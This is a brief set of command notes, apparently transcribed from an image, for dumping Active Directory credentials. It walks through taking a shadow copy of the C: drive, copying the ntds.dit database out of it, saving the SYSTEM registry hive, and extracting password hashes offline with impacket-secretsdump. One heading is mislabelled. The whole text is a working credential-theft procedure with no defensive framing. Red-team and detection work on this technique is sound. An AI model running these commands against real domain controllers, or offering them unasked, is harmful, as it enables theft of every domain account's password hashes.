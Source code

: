 Performing a shadow copy of the entire C: drive
```
vshadow.exe -nw -p C:
```
copy the `Shadow copy device name:`

copying the ntds database to the C: drive
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

copying the ntds database to the C: drive
```
reg.exe save hklm\system c:\system.bak
```

parse the file locally by adding the LOCAL keyword
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```